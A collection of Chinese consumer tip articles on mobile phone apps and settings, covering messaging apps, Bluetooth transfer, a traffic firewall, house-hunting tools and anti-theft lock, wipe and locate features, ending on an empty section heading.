诺基亚塞班五版系统手机，如5800、N97、5530、5230等凭借超大屏幕和手写操作，成为了很机玩友的首选机型，同时它更以独特的重力感应、距离感应等体感操作方式，吸引了众多手机发烧友。对于大屏幕手机来说加解锁绝对是个值得探讨的问题，然而这些手机在设计制作的过程中是使用右侧的侧滑键来实现，加解锁需要频繁的操作该键，但是总是用手划这个侧滑键时间长了就会损伤手机，况且5230机身多白呀，这要是总摆弄，手再脏一点对于爱机来说真是不堪设想！别急，桌面Ndesk已经为你想到这些了。要使用桌面Ndesk的自动加解锁功能需要在软件中开启，运行程序后点击桌面“设置”按钮找到解锁设置右侧的“设置”按钮并设置为开，完成后返回桌面Ndesk主面板，想要锁定手机的时候只要点击桌面Ndesk的“一键加锁”按钮即可锁闭你的手机。要进行解锁操作的话，只要滑动拉链即可进行解锁，特别实用。

（文/清风慕缘）

## 告别阅读器 自制安卓电子书

平时我们阅读电子书或者小说都是通过阅读器来读取txt格式的文件，你有没有想过将自己喜欢的电子书或者小说制作成apk安装文件呢？这样不但省掉了需要安装阅读器的困扰，而且自制的apk电子书也更易于保存和管理。

以笔者收藏的70本武侠小说为例，70本小说都是txt格式的文档文件，平时如果要查看某本小说的某一章节时，需要打开txt文件搜索才能找到，而自制apk电子书后，章节的名称则会以目录列表的形式展现出来，一步定位。

要想自制apk电子书，我们就要用到APKKK安卓电子书生成器，它可以把一个或多个txt文本制作成apk电子书，安装到安卓系统的手机中，直接就能阅读，无需再另装阅读器。

## 小提示：

运行APKKK安卓电子书生成器需要Microsoft .NET Framework v2.0和JAVA环境支持。

打开电子书生成器，我们首先需要选择小说txt文件所在的目录，然后在右侧列表中选择想要转换的一个或者多个txt文件，在软件的左下角可以设置电子书参数，比如书名、作者和电子书制作人，完成以上操作后，选择输出目录，点击“生成APK文件”按钮，完成制作就可以了。

制作好的电子书中，每个章节都以目录的形式出现，阅读和查询相当方便。

如果你想试用APKKK安卓电子书转换器，又暂时不想安装以上软件包，可以通过程序官方主页（APKKK.COM）在线生成电子书。

## 发短信不要钱 微信 米聊你选谁

什么，发短信不要钱？我们的身边有着大量的短信狂人，可是一条一毛多钱，包月也得几十块的短信费多少年了也一直没降。腾讯的微信虽然是典型的抄袭国外软件Kik，可是本土化的优势确实给大家带来了实惠。现在，微信又有了一个强劲的对手米聊，到底选谁好呢？今天就来给大家对比一下。

通过微信和米聊发送短信、语音和图片只需要走上网流量，能够给短信狂人们省下大笔短信费。30MB的流量就可以发几千条语音消息，只要你办理了足够的上网套餐，就可以发个够了。当然，与短信相比微信和米聊都需要双方都安装了软件客户端才行，这一点是不如短信方便的。不过目前两款软件都支持了最流行的Symbian、iOS和Android智能手机平台，覆盖面已经很广了。

下面笔者从一个普通用户的角度，来对比微信和米聊最新的Andriod版本，希望对大家的选择有所帮助。

## 注册及获得好友

第一次使用微信，可以用QQ号码登录，然后可以添加好友、查看QQ好友及手机通讯录中使用微信的人。注册米聊则需要绑定手机号码，产生一个米聊号，然后可以给通讯录中的20人发送免费短信邀请好友，之后还可通过学校、公司等名称来寻找好友。借助强大的QQ网络，笔者安装微信之后，就有27个好友，而米聊只有注册时邀请的1个好友。

在这一点上显然微信有着极大的优势。

## 发送内容

两者均支持文字、语音、图片、表情符号和群聊等功能，米聊额外增加了手写及涂鸦功能，区别不是很大。

## 界面和易用性对比

米聊将各功能键放在一个界面，只需点击一次就可以使用，而微信则需要通过按键来选择不同的功能。如果只发送单一类型信息，微信比米聊方便，但如果混合各种信息，显然米聊更快捷一些。另外，米聊会提示消息的状态，比如是否送达对方，对方是否已读、已听，这一点比微信毫无提示要强。

## 发送成功率

发送成功率是非常重要的的一项，如果发生消息漏掉的现象，而漏掉的信息恰恰又是非常重要的，那么就会造成很多的损失了。早期的3G手机网络中短信尚且会有漏信息的问题，微信和米聊会不会有这个现象，就很值得考察一下了。

根据笔者的测试，连续发送30条文字、语音及图片，微信发送的成功率是100%。但是，当由A发送至B时，在发送5条文字后，再发送消息时会非常缓慢，需要25秒左右才能发出；然后由B发送至A，连续发送了5条文字，在第5条时B才一起收到前5条文字，对于语音和图片，则无此问题。

米聊在测试时，一条语音一直处于“待发”状态，重发可以成功。

在连续发送信息时，两者均出现接收方无提示音的现象。

不过在实际应用中，一般不会有漏信息的情况，也没有连续不断地向同一用户发送重复消息的现象。

## 发送、接收速度

对于文本和20秒之内的语音消息，两者几乎都是即发即收。发送同样体积（1.26MB）的图片，米聊稍微比微信快一些。在图片压缩上，微信的压缩比要比米聊高很多，能够节省不少流量。

| | 微信 | 米聊 |
|---|---|---|
| 发送（秒） | 9 | 6 |
| 提取（秒） | 3 | 2 |
| 压缩后的体积（KB） | 47.8 | 294 |

## 流量对比

两者均提供了流量统计的功能。微信分别显示上传和下载的流量，米聊只显示流量的总数，但提供了文本、音频和图片消息的数量。发送了基本同样多的消息后，米聊花费了4MB的流量，而微信只花费了2.3MB。

## 对比结果：

| | 微信 | 米聊 |
|---|---|---|
| 资源占用 | ★★★ | ★★★ |
| 注册与好友 | ★★★ | ★ |
| 功能 | ★★☆ | ★★★ |
| 易用性 | ★★☆ | ★★★ |
| 发送速度 | ★★☆ | ★★★ |
| 成功率 | ★★★ | ★★★ |
| 流量 | ★★★ | ★★☆ |

说在最后，无论在那个手机系统中，两款软件都需要保持在后台运行，才能实现来信息后及时提醒，这时很多朋友会担心是否耗费大量流量，实际上这是不用担心的，后台运行只需要极微量的流量。另外，微信还可以提示QQ邮箱来信，相当于给手机增加了邮件推送功能，十分不错。

## 彻底告别按键 诺基亚手机触控才给力

在15期《移花接木 帮助诺基亚手机解放红白键》这篇文章中，我们介绍了如何用“智能助手”软件修改诺基亚5800触控式多媒体快捷键的方法。但这个快捷键并非所有诺基亚手机都有，而且操作过程还是需要用到手机的物理按键。如果你用的是诺基亚新一代触控手机，不妨看看读者李振是如何彻底告别诺基亚手机物理按键的方法吧。

触控式多媒体快捷键只是诺基亚早期5800、5230等机器的专利，新出的N8、C7等手机都已经不带此按键了。不过，诺基亚新手机都开始内建光线感应器，就是可以根据环境光线强弱自动调节屏幕亮度的功能。对于这些新机器而言，合理利用光线感应器同样可以减轻物理按键的负担。

笔者建议大家安装“Mykeylock”多功能解锁软件（需签名，下载地址：http://tinyurl.com/3d7tlue），运行该软件后进入“设置→遮挡感应”选项卡，将“实现方式”改为“手动遮挡”，“双敲击”里是否开启改为“只解锁”。这样一来我们连侧面的解锁键都不用了，只要遮住感应器（手机顶端的透明小圆点）两次就可以实现解锁或锁屏。

除了用第三方软件设置以外，我们还需要优化手机本身的设置，比如在手机的“设置→主屏幕→快捷方式”中添加我们常用的软件，建议优先添加短信和功能表。设置完快捷方式后进入功能表，在选项菜单里选择“整理”，将所有常用的程序都整理到根目录，也就是进入功能表后看见的那个目录，也可以为某个文件夹重命名。这样我们要打开某个软件，连按键都不用了，一切操作只需触屏就可以解决了。

(文/李振)

## 只能单向传输？塞班3和山寨机蓝牙传情

小孙在旅游的途中认识了一个新朋友，游玩途中用自己的诺基亚C7手机拍了很多照片。临别之际，朋友希望小孙能将照片传几张给她（朋友用的是MTK方案的山寨机），但通过蓝牙配对后，小孙的C7只能接收文件，却无法发送文件，难道诺基亚还不如山寨机吗？

绝大多数国产手机（山寨机为主）都采用了联发科的MTK方案，可以通过蓝牙向采用塞班3系统的诺基亚手机（如C6、C7、N8）传送文件，但却无法从对方手机接收文件，即使配对了也不成。小孙遇到的问题就源于此。其实这个Bug并不在C7手机身上，而是在于MTK方案手机的设置上。如果你也遇到过类似问题，不妨尝试下面的方法：

首先打开诺基亚手机和MTK手机的蓝牙并进行配对。配对成功后进入MTK手机的蓝牙设置界面。以笔者的山寨手机为例，先选择“匹配装置”，在设备列表中选择希望传输文件的手机“Nokia C7-00”，在弹出的选项列表中选择“联机”，再进入服务列表中选择“文件传输服务”，接下来会进入文件浏览器界面，此时C7就能正常向MTK手机传送文件了。

## 小提示：

当MTK手机进入文件浏览器界面时，可以直接访问配对手机内存和存储卡中的数据，浏览找到你需要的文件，选中后在弹出来的窗口中选择“下载”即可，非常方便。在MTK手机端下载配对手机（如本文中提到的C7）中的数据时无需对方确认。因此如果你是诺基亚塞班3系统的手机，不要随便和不熟悉的朋友的MTK手机配对，或者传完文件后及时取消配对并关闭蓝牙功能。

(文/tanghong125521)

## 手机摇一摇 伪造来电助你顺利“脱身”

在遭遇冷场的时候，“善意的谎言”往往能让我们顺利脱身。但每当面对尴尬的场景，总不能每次都说上厕所吧？

如果你有过上述经历，在这里笔者向大家推荐“Fake Me Out Of Here”（伪装来电脱身，下载地址：http://u.115.com/file/dn9e4i9o），这款软件支持晃动的触发策略，提前设置好，在需要脱身前假装把玩手机，在手上轻轻摇晃几下，救急的来电铃声就会响起。设置方法很简单，在手机上安装并运行该程序，首先就要设定“摇动手机和伪造来电之间的秒数”：刚摇晃完手机就来电未免显得太假，至少要让摇晃手机和来电之间有个时间差。

接下来就是设置伪造的来电信息了。点击“管理伪造来电细节”按钮，在这里可以添加伪造来电的信息，比如输入领导或者公司的电话，只要是代表足够紧急的号码即可。当然你也可以直接在联系人列表中选择。点击“管理回放录音”，在这里可以录制一段通话时的背景音，比如录一段“怎么还不来！客户都等急了……”的声音，这样在你接听伪造来电时，让别人也听见话筒中的确有人在说话。

笔者每次使用伪装来电脱身软件时，都是假装闲着没事，拿起手机在手上转几圈，然后放在桌面上，过一分钟后再来电，屡试不爽。怎么样，有了这款软件的帮忙，任何情况下都能顺利脱身了吧！

## 小提示：

手机平时放在口袋里，走路或活动时要是不小心触发电怎么办？不用担心，点击“调节振动敏感度”按钮就能设置摇晃触发的灵敏度了，首先是摇晃力度，建议拉到“中”的级别，每次摇晃的间隔不要超过0.5s，晃动数量建议在4次以上。


## 制作铃声无需电脑 手机也能对歌曲“做手术”

为了打发出差路途中无聊的时间，郭明临行前从同事电脑上拷贝了很多歌曲到自己的手机上。乘坐火车时郭明发现其中有首歌的高潮部分非常适合作为铃声，可惜手头没有电脑，手机也没有开通流量套餐无法下载这个铃声，难道就只能等到回家后才能用上这首铃声了吗？

电脑上有很多歌曲切割软件，可惜电脑并非时刻陪伴身边；网上什么铃声都有，但像郭明一样没有开通流量套餐，或者还在使用5元包30MB的2G号的同学不在少数，在没有WiFi环境时从网上下载铃声的代价不小。如果你想将手机中的歌曲片段作为铃声，其实完全可以“自己动手丰衣足食”，利用手机端的歌曲编辑软件“Ringdroid”（铃声剪切，下载地址：http://tinyurl.com/3l8v7qd）来制作个性铃声。

在手机上安装并运行这款软件，在歌曲列表中选中你希望切割的歌曲，稍后手机屏幕就会显示这首歌的波形信息，以及详细的编辑界面，在波形图两侧各有一个可以拖拽的滑块，分别代表切割后歌曲的开始/结束时间。比如笔者测试的歌曲中高潮部分是从第60s开始，90s结束，只需将这两个滑块分别拖拽到60s和90s的位置，点击播放按钮试听一下，没问题的话再点击最下面的保存图标即可。

这款软件可以将切割的歌曲保存为手机铃声、提示音、警告音和普通的音乐，程序会根据你的选择将切割文件保存在对应的目录中。

选择保存为铃声，在弹出来的对话框中点击“设为默认”按钮就能将它设置为手机的铃声了，是不是很简单？这比在电脑上编辑歌曲，再重新拷回到手机还要方便呢！


## 偷流量？没门！“防火墙”让你安心联网

小陈新买了一部摩托罗拉ME525手机，不过手机号依旧是以前动感地带的2G号，每月只有30MB的免费流量。一个月后的账单却让小陈傻了眼，竟然走了50多兆的流量！自己上网时很小心啊，关闭了系统自动更新等耗流量的功能，不联网时也关闭了网络开关，为什么流量还是这么费呢？

Android系统中很多软件和后台服务都会以Service的形式偷偷联网，即便你在设置中关闭了所有网络选项。为了避免在你不知情的情况下，有限的流量套餐被“恶意透支”，建议大家安装“DroidWall”（联网防火墙，需要Root权限，下载地址：http://u.115.com/file/cloklfcgh）将这些恶意程序和服务打入冷宫！

在手机上安装并运行DroidWall，程序会自动列出你手机上所有支持联网的程序和服务，并可分别设置其在WiFi上网或用手机上网时的状态。WiFi流量是免费的，所以我们可以允许所有程序在WiFi状态可以联网，只需将用手机3G或GPRS上网的程序加以限制即可。该软件默认为白名单状态，即你想允许哪个软件使用3G/GPRS就勾选哪个，其余均被默认在黑名单中。点击“模式”一行，还可修改为黑名单模式，即阻止选中。

比如笔者平时只上WAP网页、聊QQ、发微博、更新天气、GPS导航时还会用到AGPRS辅助定位，因此只让DroidWall开放这些浏览器、QQ、新浪微博等程序在用手机上网时的权限，其余程序包括系统层的服务都无需开启。

如此一来，联网时只有你打开上述的程序时才会产生流量，至于这些程序之外的软件就休想“偷流量”了。将程序列表筛选完成后，按下手机菜单键，点击“防火墙已禁用”按钮，稍等片刻你就会发现这个图标变成了“防火墙已启用”，此时DroidWall就开始为你服务了。DroidWall启动后会自动转入后台，我们可以点击“退出”按钮释放一部分内存，用高级任务管理器查杀进程也不会耽误DroidWall的工作。想关闭这个软件，只需再点击“防火墙已启用”按钮即可。

## 小提示：

当你对程序列表做出修改操作后，记得按下手机菜单键，点击“应用规则”按钮，这样DroidWall才能将你更新的设置保存。


## 照片 你好

笔者是一个很念旧的人，每年年终大扫除时，都会翻出小学、中学、高中乃至大学时期的相片回味一番。一张张的照片，隐含着笔者由幼稚到青涩的年轻精华时期的点滴回忆。随着时光的流逝照片逐渐的发黄，而且有的相片底片已经丢失了，如何才能拯救这些照片呢？
无意间笔者在APP商店里发现了这款底片翻拍软件—HelloPhoto，这是一款创意绝佳的摄影类应用程序，同时支持iPhone和iPad，理论上，你得有2个iOS设备才能将它的功能发挥完整，其中1部最好是iPhone4（用来拍摄）。
软件的作用就是将老的底片给翻拍成数码照片，大家知道，底片对着光就可以看到照片内容，但是颜色是不正确的（反色），平时翻拍底片大家需要的是专业的背光灯，将底片放置其上，然后用数码相机拍摄后到电脑PhotoShop中再处理色彩等其他细节。
而这款应用的创意之处在于，它同时内置了背光灯和拍摄功能，需要分别安装到2部设备上，其中1部iPhone 或 iPad 将变身为专业的底片背光设备，甚至还带有底片摆放定位锚点，你只需将这部设备的背光开到最亮，将底片放再上面即可。与此同时，另一部iPhone4则是利用这个软件的拍摄功能，直接对着被照亮了的底片拍摄即可，颜色的问题你不用操心，软件会自动帮你调整。
简单来说，如果你没有底片扫描仪，但是有2个iOS设备，这应该是你最简单的将底片翻拍成数码照片的方法了！

（文/孙志杰）

## 云比价 赚便宜

我们平时买东西时都喜欢去卖场特价促销的，为什么呢？就是因为他便宜！那对于普通商品我们怎样才能做到货比三家呢？也许你会说，我有条码扫描软件，价格一扫就出来了，可是仅仅知道了价格又能怎样？你会不辞辛苦地特意太老远跑去买吗？
而快拍购物搜索的出现就可以解决我们这个矛盾的问题，它不但能比出商品的价格，而且还会根据您的位置罗列出离您最近最便宜的购物点，更具特色的是，软件还支持在线商店（含京东、淘宝、1号店、卓越、当当等）的比价，另有超市优惠信息、团购活动汇总。有了它，你就能体验一站式移动购物带来的便利！坐享火拼低价带来的快乐！
快拍购物搜索支持条码、语音、关键字查询商品信息。我们以买一瓶屈臣氏矿物质水为例，当我们对焦扫码后，就会给出物品线上线下的价格，以及物品的图片和评论等信息。
点击进入线下便利店，该商品在各大超市的价格就一目了然。软件最具特色的功能就是在线下便利店一项中列出了离你最近而且价格便宜的各家便利店的名称、地址、距离你当前位置的距离。有了这个贴心的功能，不但为我们省了钱，还省了不少时间呢。
各大超市经常会有各种促销活动，如何能快速掌握这些促销信息呢？快拍购物搜索也能帮我们办到，软件内置了“优惠”专栏，点击进入后各大超市，不论线上线下的活动一览无余，有了这些信息，想不省钱都难哦！

（文/刘卓）

## 租房买房 手机帮忙

“安居才能乐业”，租房、买房是自己的大事之一。租房、买房不容易呀！房子的位置如何，是否上班方便，购物方便；房子是不是如宣传的那样光照充足；要是喜欢安静的，喧闹的房子可能让人无法忍受；更不用说现在频繁出现的“楼歪歪、楼脆脆”，如果原来电脑上查找的房源，实地考察后觉得不满意，想要了解附近其他的房源信息，该怎么办呢？去中介，找熟人，回家查电脑？“太out了”，一部手机，轻松帮助租房买房。

### 位置信息，尽在地图掌握

房子附近，上班、购物、求学、就医是否符合自己需要，安装一个手机地图，一切尽在自己掌握，这个地图谷歌、百度地图都可以胜任。这里推荐百度手机地图，因为其支持离线地图下载，官方给的说法是会节省90%的流量，提高80%的速度，不花流量速度又快，岂不更好。单击图标，即可查询所在小区的交通信息，可以看出，驾车、公交、步行信息都可以查询，单击图标，可以查询周围的银行、购物、生活等等信息。

### 看光照

很多开发商说的挺好，“什么春光明媚，什么和煦如春”，但是房间的阳光是否充足，估计大家心里都没有底。房间阳光是否符合标准，最好的方法是等冬至、大寒两日看实际的光照时间，可是大家生活节奏这么快，总不能都等到冬至再看房吧。
采光计（http://mobile.91.com/Soft/Android/sunshineindex.html）是一款居室辅助类手机小应用产品，专门为那些想知道当前房屋阳光情况的选房者提供了一个简单的参考工具，它不但可以测算出一年四季的日均光照时间，而且还能检测出房间的朝向。
采光计主要使用GPS进行定位，所以建议大家在室外使用，采光计使用非常简单，启动后，将红色指针对准太阳，单击下一步即可。
房间正前方通常有建筑物遮挡，这个时候，采光计就不太好使了。还是使用采光计算器（http://www.baiyuxiong.com/sun/）吧，在图中，输入前后楼层的高度、层数和间距之后，单击计算即可得到结果。按照《中华人民共和国国家标准城市居住区规划设计规范》规定：大城市住宅日照标准为大寒日大于等于2小时，冬至日大于等于1小时，你的住宅，达标了吗？

### 测噪声

楼盘距离道路50米，到底这个楼盘有多大噪声呢？有人说越离越静，有人说一定高度更吵。国家规定夜间（22时至次日6时）噪声不得超过30分贝，白天（6时至22时）不得超过40分贝。若长期在80分贝以上的噪声环境中生活，耳聋者可达50%。总不能买个噪声计吧？太贵了。还是使用手机噪声计（http://mobile.91.com/Soft/Android/dnue.splmeter-1.0.html）吧，噪声计可以测出最高达到160环境分贝声级，方圆百米内的噪音是否会影响到日常生活，都可以实测出来。
噪声计使用非常简单，单击开始即可进行测试。

### 楼歪歪

我的房间白天噪声只有34分贝，是不是非常安静呀。
到了自己心仪的楼盘附近，无论从哪个角度来看，房子都是歪的（排除倾斜特别厉害的建筑物，其实是一种视觉误差）！！！联想到网上某市的“楼歪歪”，不会也到咱这里吧。眼见未必是真，还是找个水平仪（http://www.androidmi.com/xz/cyr/xuanji/201003/333.html）来实地测一下，Spirit Level Plus 1.21号称史上最强的水平仪，测试结果不容置疑。还是看看我的房间吧，远看倾斜的楼盘，测试结果居然绝对是水平，水平仪准确吗？手机水平仪靠位置传感器进行工作，测试精度取决于手机的质量，一般来说，测试结果值得信赖。

### 楼脆脆

听说有的楼房使用细钢筋代替粗钢筋，甚至有部分非关键位置使用竹子代替钢筋，真是触目惊心！！！大家看中的楼盘有没有类似的问题呢？这可真说不好，总不能把墙砸碎看看钢筋吧！！！装一个金属探测仪吧（http://mobile.91.com/Soft/Android/metal-detector-1.2.html），它使用电磁感应器进行工作，当手机接近金属的时候，产生电磁感应，值得注意的是，由于利用电磁感应进行工作，该探测仪仅仅对铁等电磁感应强烈的金属十分敏感，如果是铝等其它金属则不敏感。
金属探测仪启动后即可工作，进度条表示电磁感应程度，如果进度条到100%表示探测到金属，此时会振动或者声音提示。由于是利用电磁感应进行工作，这里提醒大家，探测金属的时候一定要来回移动“探测仪”，让探测仪切割磁力线，避免探测不到金属，在使用中探测仪可能出现误报，常见的原因是探测仪灵敏度设置过高引起，单击菜单键，选择“设置”→“设置灵敏度”，系统默认为5，9为最高，建议大家选择为8。

### 安居客

通过上面的实地考察，觉得房子不满意，想要了解附近其他的房源信息，安装一个“安居客”吧。手机安居客Android版，为安卓手机量身设计的房产类软件，让你在手机上也能找到自己心满意足的房子。启动软件后，单击找房即可输入关键字进行找房，可以看出，位置、价格信息一览无余。单击图标，可以在地图上显示结果，如果想找附近的房源，单击附近找房即可。附近小区的住房单价、均价都有显示，虽然价格仅供参考，但附近小区的位置一目了然。“很多中介看到我在用这个看房之后，介绍偏僻小区时顿时没了底气”有朋友这样对我说。

## 小提示：
安装上面的工具后，大家租房买房是不是方便许多了。这里需要说明的是，以上的部分手机辅助软件，其结果仅仅能够起到参考作用，不能代替专业仪器和专业测试手段，如果想进一步验证结果，还是请专业人员帮忙。

（文/赵建超）

## 团购管家 管理团购更轻松

小杨是一家公司的中层管理人员，同事们送他一个外号叫“工作狂”，因为他经常要加班到深夜。别看他工作忙，对生活品质的追求可不低，经常买一些昂贵的奢侈品来“犒劳”自己。
自从团购兴起后，他就迷上了团购，用他的话来说，“团购这东西不但让他的生活质量更高，而且更省钱了”。
可是最近他却有点犯愁了，因为忙于工作，好几张团购的电子券过期了，有什么办法能避免因为疏忽而造成的这种损失呢？同事小白给他介绍了一个“秘密武器”—最淘团购管家。

我们知道，现在很多的团购都是以电子券的形式通过手机短信发给购买者，可是很多用户手机中都有数十上几百条的信息，而很久之前团购的电子券往往就淹没在其中，平时想不起来用，用的时候又找不到。如果能有一款能够帮助用户记录、管理、备份的团购管理软件就显得十分可贵了。
“最淘团购管家”就是这样一款全新的团购信息管理与提醒工具，可以安装于android及iPhone等多种手机平台，其拥有智能管理系统，可以自动识别用户手机内的团购信息，提供方便的整理备份功能。另外，“最淘团购管家”还能自动计算用户团购商品的过期时间，进行过期提醒。

用户安装进入最淘团购管家后，它会自动寻找用户手机上的团购信息，然后将查找到的信息显示在主界面上，让用户对于已购买的团购信息做到一目了然。同时，用户可以对选中的团购信息添加相应的文字备注。另外，用户也可以对提醒功能进行编辑，如果不想自动提醒某条团购信息，可以选择取消提醒。除此之外，即便用户在手机中误删了某条团购信息，在“最淘团购管家”中也能为用户备份该条团购信息。

# 开辟通往iPad2的文件直传“通道”

提起时下最火的平板电脑，非苹果的iPad2莫属。同事小文经不住iPad2的“诱惑”，花了几个月的积蓄入手了一台。iPad2的功能果然名不虚传，让小文爱不释手。不过小文发现iPad2不像普通优盘一样，可以直接传送文件，必须通过苹果提供的iTunes软件才行。而iTunes设计得很不人性化，使用起来很不方便，让小文有些抓狂。难道真的不能在iPad2上传文件吗？有了金山共享精灵这款免费的软件，不仅可以让小文摆脱上述烦恼，而且还可以将iPad2变成大容量的无线优盘来用呢！

# 启动金山共享精灵

首先在iTunes的软件商店中找到金山共享精灵，之后将其下载下来，并安装到iPad2上。当然，金山共享精灵也支持iPhone手机。这里使用无线路由器组建一个Wi-Fi无线网络，iPad2和电脑通过该网络实现无线上网。

在iPad2上启动金山共享精灵，金山共享精灵会为您提供一个访问地址和端口（本例为“http://192.168.0.101:6868”），同时提供一个随机密码。之后iPad2就变成了功能强大的共享服务器。如果您想拥有固定的访问端口和密码，可以在iPad2上的金山共享精灵界面底部点击“设置”按钮，在设置界面中的“密码设置”栏可以设置固定密码，在“端口设置”栏中可以设置固定访问端口。

在电脑上打开浏览器，输入该地址，输入密码后进入金山共享精灵访问页面。当然，您可以随时在iPad2上的金山共享精灵主界面中的共享开启状态栏拖动滑块，来打开或者关闭文件共享服务。

# iPad2变身无线优盘

更有趣的是，金山共享精灵还可以将iPad2作为无线优盘使用，您可以将电脑中的文件传输该虚拟优盘中保存。在金山共享精灵中打开“U盘”页面，页面左侧点击“我的U盘”按钮，在“容量”栏中显示iPad2总容量和可用空间，在“所在路径”栏中显示该无线优盘在iPad2上的路径信息。窗口左侧点击“我的SD卡”按钮，原本无法显示的iPad2路径信息完全“现身”，您可以如同使用资源管理器一样，自由进出iPad2相关路径，来直接访问其中的文件。在iPad2中的金山共享精灵界面底部点击“U盘”按钮，可以浏览传入的所有文件。利用iPad2强大的文档管理能力，您可以直接阅读各种类型的文档。

（文/郭建伟）

# 任务达人 助你实现玩机达人梦想

《中国达人秀》大家都看过吧，看了之后，有没有摩拳擦掌跃跃欲试的冲动？但是若无一技之长，还是静下心来玩手机吧，说到玩手机，不如做个玩机达人哦。

手机用的时间久后安装的软件会很多，有条理的你会把各类软件分类存放，但若碰到做事情没有条理的同学，真正要寻找某一软件还是要“众里寻她千百度”，翻找很多个文件夹才可以打开运行。其实这个问题很好处理，只要使用“任务达人”这款小软件所有问题就能迎刃而解。

# 指定程序 两步运行

运行软件后，任务达人会自动扫描正在使用的如时钟、通讯录、通话记录等程序，并显示在软件主菜单的左边栏。要使用该软件快速运行常用软件，必须要添加你最常用的程序到软件中，打开软件主界面后，首先选择右边栏，点击主菜单下方工具栏“添加”按钮，在打开的添加快捷启动对话框中选择“程序”，然后在打开的程序选择界面选定需要添加的程序确定即可。程序添加完成后，并不能实现两步运行程序，接下来我们还有对手机进行一下设置，以诺基亚手机为例，首先进入功能菜单，选择“设置→个人模式→主题模式→主屏幕主题元素”，选中快捷方式栏，然后返回个人模式，选择“主屏幕→快捷方式”，进入后设置添加任务达人为快捷方式1，其他的设置为三个最常用的软件。接下来返回桌面，这个时候我们就可以看到任务达人图标已经显示在桌面上了，想要运行程序，第一步：在桌面上点击运行任务达人，第二步：在任务达人内找到需要运行的程序，点击即可运行。

> 小提示：
如果已经添加的程序不再需要，只要在软件右边栏选中该程序，然后点击“移除”按钮即可删除该程序。同时“移除”按钮还可以关闭正在运行的程序，只要在左边栏中选中不再使用的程序后，点击“移除”按钮即可关闭该程序。

# 系统状态 随时掌握

今天又发现了一个超酷的游戏，想要安装试玩，但是又不知道手机还有没有存储空间，我们还需要去翻找手机查看吗？其实任务达人已经为我们提供了一种特别方便查看手机内存的方法。运行软件后，点击“菜单→设置→程序设置”，然后在“常规”项目里勾选“顶部显示内存详情”并确定。返回软件主菜单后就可以在顶部看到手机内存使用情况了。

> 小提示：
该软件除了以上功能外，还具备快速关闭程序、锁闭键盘、重启手机等功能，赶快下载试试吧！适用手机系统为：S60 V3/V5

（文/清风慕缘）

# 有备无患 手机丢失轻松应对

智能手机出现之后，手机承载的功能逐步增加：手机淘宝、手机银行、手机邮箱、通信录、照片等等。手机要是万一丢了，真是不敢想象：手机银行支付一笔，私密照片公布到网上，别说了，太可怕了。“有备才能无患”，防止手机丢失出现大问题，一定要认真准备。

# “有备才能无患”——私密通讯皆隐藏

这年头因为短信电话泄露隐私的事件不在少数，经常会看到明星因为手机丢失，私密短信被曝光……的确，如今手机已经成为工作生活的必需品，每天电话、短信几乎是不可缺少的。这些电话短信中，可能有一些是你不愿意让别人知道的，必须保护或隐藏。那么怎样让手机自动保护短信电话做到有备无患呢？装个QQ手机管家就能解决此烦恼。

在手机上安装并打开QQ手机管家，选择“私密信箱”设置密码后即可进入，选择“选项→私密名单管理”，再选择“选项→添加私密联系人”，可以通过多种方式添加私密号码，一般选择“手动输入”，输入姓名和电话号码即可，添加后会提示将该号码的信息和相关通话记录都导入私密信箱中，以后所有该号码的通讯记录都会自动保存到私密信箱，相当安全。

通过上面的设置，私密通讯都已经隐藏到“私密信箱”中了，不过这样还不是非常周到，万一某个熟人看到这个私密信箱，一定要进入，而且不说密码又不行，这可该怎么办呢？这里再给大家支个秘招，选择“选项→私密信箱设置”，在这里可以设置私密通讯策略，如：来电是否正常接听，信息是否静音等；在“主界面名称显示”中可以修改“私密信箱”的名称，最好改成不太敏感的名称，如：回收站；在“连续输入错误密码”中选择“进入虚假私密信箱”，这样告诉某人一个错误的密码，她打开后只会看到空白的私密信箱，因此也不会怀疑什么啦，非常安全。

# 丢失第一反应——远程锁定与消除

手机丢失之后，自己的绝密资料可在其中呀！不要着急，首先锁定手机，还有远程消除！怎么锁定和远程消除手机的资料呢？很简单，使用安装诺顿手机安全软件，任意借用一位朋友的手机，向你的手机发条短信即可搞定。

使用诺顿手机安全软件，即可马上锁定手机，也可以消除包括联系人、短信、通话记录、书签，以及手机存储卡上的所有数据。丢失手机尽在掌握。

首先，使用Android手机访问 www.norton.com/cn/nms下载norton Mobile security，使用手机访问需要一定的流量，建议大家使用电脑下载，然后使用91手机助手安装到手机的内存中，注意一定要安装到内存中而不能安装到SD卡中，否则会出现错误。值得注意的是，为了防止SD卡可能产生的问题（如丢失，损坏），手机安全产品一般都需要安装在内存中。

打开norton Mobile security，单击设置防盗用，此时需要设置一个防盗用的密码，确保防盗安全。为了防止马虎的朋友忘掉防盗密码，从而导致系统无法开锁，在这里可以设置5个信任朋友的电话。一旦忘掉密码，可以使用信任的朋友手机向你手机发送文本消息进行解锁。信任朋友号码十分重要，建议大家一定要设置，避免忘记密码带来的严重问题。简单设置后，防盗功能就可以启动了。

手机丢失后，使用任意手机，向你的手机号码发送短信，“Lock 密码”锁定手机，“wipe 密码”擦除手机的所有数据。从此之后，丢失手机不用担心资料丢失。

# 找回手机——GPS定位，手机变砖头

现在手机丢失之后，主动归还的人几乎没有了。要想找回手机，还得靠自己努力，单击设置“防盗用”，即可进行找回手机的设置。使用任意手机，向自己手机号码发送短信“locate 密码”，让手机回报现在所在的位置。此时，手机会启动GPS功能，得到目前手机的位置，而且还有与发送手机的距离，并且在谷歌地图上显示手机的具体位置。

除此之外，还可以使用SIM卡锁定功能，让手机变砖头，可以保证在没有密码的情况下，他人无法更换SIM卡。手机变成了砖头，没有什么用途，归还失主也是有可能的，你说呢？

# 穷追到底——声音、号码追踪

手机丢失之后，还可以使用号码追踪的方法帮你找到现在用手机的人，即SIM卡换卡自动发送短信到安全的手机号码，金山手机卫士等安全软件都有类似的功能。

另外金山手机卫士还有发报警声的功能，当您手机刚刚被盗，手机会发出最大音量的警报声，便于您寻声查找。另外我们还可以通过手机唯一的IMEI码（查询方法是*#06#）来追踪手机，丢失手机后，如果该手机仍在使用，我们就可以使用IMEI码，通过电信运营商查到目前使用该手机的用户。不过，这种方法需要提前记住自己手机的IMEI码。

（河南/赵建超）

# 又个性又温馨 咱用视频做壁纸

